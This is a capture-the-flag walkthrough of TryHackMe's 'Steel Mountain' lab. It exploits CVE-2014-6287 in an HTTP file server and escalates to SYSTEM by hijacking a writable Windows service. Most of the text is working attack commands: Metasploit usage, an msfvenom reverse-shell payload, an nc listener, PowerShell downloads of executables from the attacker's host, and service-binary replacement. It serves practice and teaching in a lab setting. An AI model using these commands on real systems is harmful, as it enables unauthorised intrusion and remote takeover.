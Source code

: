 *2021-08-28*

*kimm3*

# Walkthrough: Steel Mountain
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/blue)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history/enum1
export IP=10.10.209.30
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-20210828094251524.png)

- Two http servers(80 and 8080)
- Two http APIs
- SMB enabled
- Some kind of terminal or remote desktop server.

![index-p80](assets/markdown-img-paste-20210828094659499.png)

Index of port 80.

![index-p8080](assets/markdown-img-paste-20210828095041754.png)

Interesting.

There's a pretty [serious vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2014-6287) for this http file server.
## Foothold
```
script history/target1
msfconsole
search CVE-2014-6287
use 0
info
set LHOST 10.8.210.115
set RHOSTS 10.10.209.30
set RPORT 8080
run
```

![success](assets/markdown-img-paste-20210828095858172.png)

![usertxt](assets/markdown-img-paste-20210828100902464.png)
## Privilege Escalation
```
upload tools/PowerUp.ps1
load powershell
powershell_shell
. .\PowerUp.ps1
Invoke-AllChecks
```

![powerup-asbill](assets/markdown-img-paste-20210828103636612.png)

The 'AdvancedSystemCareService9' is restartable and we have read/write permissions. This means that we can replace the binary with our own malicious .exe-file and restart the service to run a reverse shell.

```
# LOCAL
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=4321 -e x86/shikata_ga_nai -f exe -o upload/Advanced.exe

# REMOTE
## Meterpreter
upload upload/Advanced.exe

## Shell
sc stop AdvancedSystemCareService9
copy Advanced.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"

# LOCAL
nc -lvnp 4321

# REMOTE
sc start AdvancedSystemCareService9
```

![roottxt](assets/markdown-img-paste-2021082812112271.png)
## The no-metasploit way
### Foothold
Using [this](https://www.exploit-db.com/exploits/39161) script.

Prep:
- Edit the script with your local ip and port.
- Host a 'nc.exe' binary on port 80.
- Setup a listener to correct port.

```
python 2014-6287.py 10.10.58.54 8080
python 2014-6287.py 10.10.58.54 8080
```

It retrieved 'nc.exe' the first run, executed it the second.

![foothold-nc](assets/markdown-img-paste-20210828122146659.png)
### Alternative vulnscan
Using winPEAS instead of PowerUp.

Getting winPEAS with powershell(hosting it on the same http server):

```
powershell -c "(new-object system.net.webclient).downloadfile(\"http://10.8.210.115/PEASS-ng/winPEAS/winPEASbat/winPEAS.bat\",\"checkme.bat\")"`

.\checkme.bat > output

type output
```

![winPEAS](assets/markdown-img-paste-20210828125005977.png)

winPEAS also notices the unqouted paths and r/w permissions. This time we can use the unqouted way of doing things, instead of replacing the original file.
### Privescing is the same
```
powershell -c "(new-object system.net.webclient).downloadfile(\"http://10.8.210.115/Advanced.exe\",\"Advanced.exe\")"

copy Advanced.exe "C:\Program Files (x86)\IObit\"

powershell -c "restart-service AdvancedSystemCareService9"
```

![rootagain](assets/markdown-img-paste-20210828125737597.png)
